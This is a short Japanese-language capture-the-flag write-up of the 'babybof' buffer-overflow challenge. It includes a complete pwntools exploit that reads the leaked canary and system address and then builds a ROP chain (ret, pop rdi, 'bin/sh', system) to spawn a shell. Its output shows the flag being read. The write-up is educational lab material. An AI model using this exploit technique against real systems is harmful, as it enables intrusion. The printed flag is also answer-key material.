

## babybof (100pt / 494 solves)
> welcome to pwn! hopefully you can do your first buffer overflow
> 
> [問題鯖への接続情報]
>
> 添付ファイル: vuln

なんとソースコード無し。鯖に接続して一通りの操作を行った結果を以下に示す。

</img>

アドレスは与えるので、BOFでリターンアドレスを書き換えて`system("bin/sh")`してください（canaryのおまけ付き）という問題であることは分かった。
`(make sure your stack is aligned!)`とあるように、`ret`と`pop rdi`でスタックポインタを調整しなければならないことに気を付けつつソルバを書いた。なお`pop rdi;`, `ret`, `"bin/sh"`はアドレスが固定だったため、ハードコードしてしまっている。

```python
from pwn import *

target = './vuln'

context.os = 'linux'
context.arch = 'amd64'
context.binary = target

addr_pop_rdi = 0x4011ba
addr_ret = 0x4011bb
addr_binsh = 0x404038

#proc = process(target)
proc = remote(host, port)

proc.recvuntil('system @ ')
temp = proc.recvline()[2:14].decode()
print(temp)
addr_system = int(temp, 16)
proc.recvuntil('canary: ')
temp = proc.recvline()[2:18].decode()
print(temp)
canary = int(temp, 16)

payload = b'A' * 56
payload += pack(canary)
payload += b'A' * 8
payload += pack(addr_ret)
payload += pack(addr_pop_rdi)
payload += pack(addr_binsh)
payload += pack(addr_system)

proc.sendlineafter('enter your input (make sure your stack is aligned!): ', payload)

proc.interactive()
```

これを実行すると無事シェルが立ち上がり、フラグが得られた。
```
...

[*] Switching to interactive mode
your input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
canary: 0xd2efbdff34576f00
return address: 0x4011bb
$ ls
chal
flag.txt
$ cat flag.txt
ictf{arent_challenges_written_two_hours_before_ctf_amazing}
```

### `ictf{arent_challenges_written_two_hours_before_ctf_amazing}`